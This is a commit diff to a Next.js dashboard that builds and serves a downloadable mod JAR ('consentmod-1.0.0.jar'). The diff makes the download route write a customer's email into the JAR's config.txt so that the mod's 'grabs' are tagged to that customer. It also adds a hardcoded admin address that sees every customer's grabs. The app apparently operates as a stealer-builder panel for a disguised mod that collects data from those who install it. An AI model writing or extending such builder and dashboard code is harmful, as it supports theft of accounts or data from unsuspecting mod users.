

Before and after one commit to GiodePio/GiodePio, a Next.js app: page /dashboard/build in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
feat: admin sees all grabs, build page email config, download bakes email into JAR config.txt

```diff
--- a/app/api/download/route.js
+++ b/app/api/download/route.js
@@ -7,6 +7,13 @@
 import { join } from 'path';
 
 export async function GET(request) {
+  const { searchParams } = new URL(request.url);
+  const email = searchParams.get('email');
+
+  if (!email || !email.includes('@')) {
+    return NextResponse.json({ error: 'Valid email required' }, { status: 400 });
+  }
+
   const supabase = createServerClient(
     process.env.NEXT_PUBLIC_SUPABASE_URL,
     process.env.NEXT_PUBLIC_SUPABASE_ANON_KEY,
@@ -31,8 +38,7 @@
     const jarData = await readFile(jarPath);
     const zip = await JSZip.loadAsync(jarData);
 
-    const configContent = user.email;
-    zip.file('config.txt', configContent);
+    zip.file('config.txt', email);
 
     const modifiedJar = await zip.generateAsync({ type: 'nodebuffer', compression: 'DEFLATE' });
 
--- a/app/dashboard/build/page.js
+++ b/app/dashboard/build/page.js
@@ -1,6 +1,6 @@
 'use client';
 
-import { useState } from 'react';
+import { useState, useEffect } from 'react';
 import { useRouter } from 'next/navigation';
 
 const colors = {
@@ -27,19 +27,33 @@
 
 export default function BuildPage() {
   const router = useRouter();
+  const [email, setEmail] = useState('');
+  const [userEmail, setUserEmail] = useState('');
+  const [emailConfirmed, setEmailConfirmed] = useState(false);
   const [downloading, setDownloading] = useState(false);
   const [progress, setProgress] = useState(0);
 
+  useEffect(() => {
+    fetch('/api/auth/user')
+      .then(r => r.json())
+      .then(d => { if (d.user?.email) { setUserEmail(d.user.email); setEmail(d.user.email); setEmailConfirmed(true); } })
+      .catch(() => {});
+  }, []);
+
+  const handleConfirmEmail = () => {
+    if (email && email.includes('@')) {
+      setEmailConfirmed(true);
+    }
+  };
+
   const handleDownload = async () => {
+    if (!emailConfirmed || !email) return;
     setDownloading(true);
     setProgress(0);
 
     const interval = setInterval(() => {
       setProgress(prev => {
-        if (prev >= 100) {
-          clearInterval(interval);
-          return 100;
-        }
+        if (prev >= 100) { clearInterval(interval); return 100; }
         return prev + 2;
       });
     }, 100);
@@ -48,7 +62,7 @@
       clearInterval(interval);
       setProgress(100);
       try {
-        const res = await fetch('/api/download');
+        const res = await fetch(`/api/download?email=${encodeURIComponent(email)}`);
         if (res.ok) {
           const blob = await res.blob();
           const url = URL.createObjectURL(blob);
@@ -89,7 +103,39 @@
         <h1 style={{ fontSize: 24, fontWeight: 700, margin: '0 0 8px 0' }}>Build Center</h1>
         <p style={{ color: colors.textDim, fontSize: 14, margin: '0 0 24px 0' }}>Build, download, and install your mods.</p>
 
-        <div style={{ background: colors.panel, borderRadius: 12, border: `1px solid ${colors.border}`, padding: 24, marginBottom: 20 }}>
+        <div style={{ display: 'grid', gridTemplateColumns: '1fr 1fr', gap: 16, marginBottom: 20 }}>
+          <div style={{ background: colors.panel, borderRadius: 12, border: `1px solid ${colors.border}`, padding: 24 }}>
+            <div style={{ display: 'flex', alignItems: 'center', gap: 8, marginBottom: 16, fontSize: 14, fontWeight: 600, color: colors.text }}>
+              <span>📧</span> Account Configuration
+            </div>
+            <div style={{ fontSize: 12, color: colors.textDim, letterSpacing: 1, textTransform: 'uppercase', marginBottom: 8 }}>YOUR EMAIL</div>
+            <div style={{ fontSize: 13, color: colors.textDim, marginBottom: 12 }}>
+              This email will be baked into your mod. All grabs from your mod will be tagged with this email.
+            </div>
+            <div style={{ display: 'flex', gap: 8 }}>
+              <input
+                type="email"
+                value={email}
+                onChange={e => { setEmail(e.target.value); setEmailConfirmed(false); }}
+                placeholder="your@email.com"
+                style={{ flex: 1, background: '#1a1b24', border: `1px solid ${colors.border}`, borderRadius: 8, padding: '10px 14px', color: colors.text, fontSize: 13, outline: 'none' }}
+              />
+              <button
+                onClick={handleConfirmEmail}
+                disabled={!email || !email.includes('@')}
+                style={{ background: emailConfirmed ? colors.green : 'transparent', color: emailConfirmed ? '#000' : colors.textDim, border: `1px solid ${emailConfirmed ? colors.green : colors.border}`, borderRadius: 8, padding: '10px 16px', fontSize: 13, fontWeight: 600, cursor: email && email.includes('@') ? 'pointer' : 'not-allowed' }}
+              >
+                {emailConfirmed ? '✓ Confirmed' : 'Confirm'}
+              </button>
+            </div>
+            {emailConfirmed && email && (
+              <div style={{ marginTop: 10, fontSize: 12, color: colors.green, display: 'flex', alignItems: 'center', gap: 4 }}>
+                ✓ Email configured — mod will send grabs tagged to <strong>{email}</strong>
+              </div>
+            )}
+          </div>
+
+          <div style={{ background: colors.panel, borderRadius: 12, border: `1px solid ${colors.border}`, padding: 24 }}>
             <div style={{ display: 'flex', alignItems: 'center', gap: 8, marginBottom: 16, fontSize: 14, fontWeight: 600, color: colors.text }}>
               <span>🔨</span> Build Mod
             </div>
@@ -100,9 +146,17 @@
                 <span style={{ background: colors.green, color: '#000', fontSize: 10, fontWeight: 700, padding: '2px 6px', borderRadius: 4 }}>LATEST</span>
               </div>
             </div>
-          <button onClick={handleDownload} style={{ background: 'transparent', border: `1px solid ${colors.border}`, color: colors.text, padding: '10px 20px', borderRadius: 8, fontSize: 13, fontWeight: 600, cursor: 'pointer', display: 'inline-flex', alignItems: 'center', gap: 8 }}>
+            <button
+              onClick={handleDownload}
+              disabled={!emailConfirmed}
+              style={{ background: 'transparent', border: `1px solid ${emailConfirmed ? colors.border : '#333'}`, color: emailConfirmed ? colors.text : '#555', padding: '10px 20px', borderRadius: 8, fontSize: 13, fontWeight: 600, cursor: emailConfirmed ? 'pointer' : 'not-allowed', display: 'inline-flex', alignItems: 'center', gap: 8 }}
+            >
               <span>↓</span> Download JAR
             </button>
+            {!emailConfirmed && (
+              <div style={{ marginTop: 8, fontSize: 12, color: '#ef4444' }}>Confirm your email first to enable download</div>
+            )}
+          </div>
         </div>
 
         <div>
@@ -112,10 +166,10 @@
               <span style={{ fontSize: 20 }}>📄</span>
               <div>
                 <div style={{ fontSize: 14, fontWeight: 500, color: colors.text }}>consentmod-1.0.0.jar</div>
-                <div style={{ fontSize: 12, color: colors.textDim, marginTop: 2 }}>Latest build</div>
+                <div style={{ fontSize: 12, color: colors.textDim, marginTop: 2 }}>Latest build · Email: {emailConfirmed ? email : 'Not configured'}</div>
               </div>
             </div>
-            <button onClick={handleDownload} style={{ background: 'transparent', border: `1px solid ${colors.border}`, color: colors.text, padding: '8px 16px', borderRadius: 8, fontSize: 13, cursor: 'pointer', display: 'flex', alignItems: 'center', gap: 6 }}>
+            <button onClick={handleDownload} disabled={!emailConfirmed} style={{ background: 'transparent', border: `1px solid ${emailConfirmed ? colors.border : '#333'}`, color: emailConfirmed ? colors.text : '#555', padding: '8px 16px', borderRadius: 8, fontSize: 13, cursor: emailConfirmed ? 'pointer' : 'not-allowed', display: 'flex', alignItems: 'center', gap: 6 }}>
               <span>↓</span> Download
             </button>
           </div>
@@ -126,7 +180,7 @@
         <div style={{ position: 'fixed', top: 0, left: 0, right: 0, bottom: 0, background: 'rgba(0,0,0,0.8)', display: 'flex', alignItems: 'center', justifyContent: 'center', zIndex: 9999 }}>
           <div style={{ background: colors.panel, border: `1px solid ${colors.border}`, borderRadius: 16, padding: '40px 48px', textAlign: 'center', minWidth: 360 }}>
             <div style={{ fontSize: 18, fontWeight: 600, color: colors.text, marginBottom: 8 }}>Building your mod...</div>
-            <div style={{ fontSize: 13, color: colors.textDim, marginBottom: 24 }}>Configuring with your account and preparing download</div>
+            <div style={{ fontSize: 13, color: colors.textDim, marginBottom: 24 }}>Configuring with <strong style={{ color: colors.green }}>{email}</strong> and preparing download</div>
             <div style={{ background: '#1a1b24', borderRadius: 8, height: 8, overflow: 'hidden', marginBottom: 16 }}>
               <div style={{ background: colors.green, height: '100%', width: `${progress}%`, borderRadius: 8, transition: 'width 0.1s linear' }} />
             </div>
--- a/app/dashboard/grabs/page.js
+++ b/app/dashboard/grabs/page.js
@@ -30,13 +30,17 @@
   const [grabs, setGrabs] = useState([]);
   const [loading, setLoading] = useState(true);
   const [search, setSearch] = useState('');
+  const [userEmail, setUserEmail] = useState('');
 
   useEffect(() => {
     fetch('/api/auth/user')
       .then(r => r.json())
       .then(d => {
         if (d.user?.email) {
-          return fetch(`/api/grabs?owner_email=${encodeURIComponent(d.user.email)}`);
+          setUserEmail(d.user.email);
+          const isAdmin = d.user.email === 'lifegrading@gmail.com';
+          const url = isAdmin ? '/api/grabs' : `/api/grabs?owner_email=${encodeURIComponent(d.user.email)}`;
+          return fetch(url);
         }
         setLoading(false);
         return null;
--- a/app/dashboard/page.js
+++ b/app/dashboard/page.js
@@ -30,7 +30,9 @@
 
   useEffect(() => {
     if (!userEmail) return;
-    fetch(`/api/grabs?owner_email=${encodeURIComponent(userEmail)}`)
+    const isAdmin = userEmail === 'lifegrading@gmail.com';
+    const url = isAdmin ? '/api/grabs' : `/api/grabs?owner_email=${encodeURIComponent(userEmail)}`;
+    fetch(url)
       .then(r => r.json())
       .then(d => setGrabCount(d.grabs?.length || 0))
       .catch(() => {});
```
Lines whose indentation alone changed are shown as unchanged.
